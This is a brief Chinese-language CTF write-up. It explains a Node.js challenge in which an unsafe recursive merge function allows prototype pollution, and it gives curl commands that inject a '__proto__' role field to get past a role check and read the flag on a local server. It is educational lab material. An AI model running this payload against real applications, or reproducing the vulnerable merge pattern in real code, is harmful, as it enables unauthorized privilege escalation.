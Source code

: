 查看源码，`index.js`里头有明显的`merge`构造

```js
const updateInfo = (dest, src) => {
    for (const key in src) {
        if (
            key in dest && typeof dest[key] === "object" &&
            typeof src[key] === "object"
        ) {
            updateInfo(dest[key], src[key]);
        } else {
            dest[key] = src[key];
        }
    }
};
```

要构造原型链污染，目标是把`/flag`路由里头的`user.role`污染成"setsumi"

```js
app.get("/flag", (req, res) => {
    if (!req.session.loggedIn) {
        res.redirect("/login");
        return;
    }

    if (req.session.user.role === "setsumi") {
        res.render("flag", { flag: process.env.FLAG });
        return;
    }

    res.render("flag", { error: "You are not setsumi!" });
});
```

`user`的构造位置在`/register`路由里头

```js
app.post("/register", (req, res) => {
    const { username, password } = req.body;
    if (users[username]) {
        res.render("register", { error: "Username already exists" });
        return;
    }

    users[username] = { username, password }; // 注意这一行
    res.render("login", { success: "User registered successfully" });
});
```

于是我们往`Object`原型里加个值为"setsumi"的`role`字段就能过鉴权，入口在`/info`路由

```shell
curl 'http://localhost:8080/info' -X POST -H 'Content-Type: application/x-www-form-urlencoded' -H 'Cookie: <cookie>' --data-raw 'info={ "bio": "111", "age": "222", "__proto__": { "role": "setsumi" }}'
curl -s 'http://localhost:8080/flag' -H 'Cookie: <cookie>' | grep Spirit
```

![](<./img/Pasted image 20241026212651.png>)